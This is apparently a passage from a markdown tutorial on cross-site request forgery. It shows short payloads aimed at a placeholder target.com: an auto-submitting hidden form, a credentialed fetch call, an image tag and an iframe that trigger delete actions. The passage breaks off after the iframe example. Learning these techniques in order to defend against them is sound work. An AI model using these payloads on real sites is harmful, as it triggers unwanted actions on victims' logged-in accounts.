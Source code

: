 
## 3️⃣ **CSRF via HTML Forms (Auto-submission)**

### 🧪 How It Works:

```html
<body onload="document.forms[0].submit()">
<form action="https://target.com/delete" method="POST">
  <input type="hidden" name="id" value="12345" />
</form>
</body>
```

* Victim visits the page → form auto-submits → action is executed.

---

## 4️⃣ **CSRF via JavaScript (Fetch/XHR)**

### 🧪 How It Works:

```js
fetch("https://target.com/api/delete", {
  method: "POST",
  credentials: "include"
})
```

* This only works if CORS is misconfigured and `SameSite=None` is set on cookies.

---

## 5️⃣ **CSRF via Image Tags or Script Tags**

### 🧪 How It Works:

```html
<img src="https://target.com/delete?id=123" />
```

* Used for GET requests only.
* Can be embedded in emails, forums, or blogs.

---

## 6️⃣ **CSRF via Iframes**

### 🧪 How It Works:

```html
<iframe src="https://target.com/delete?id=123"></iframe>
```
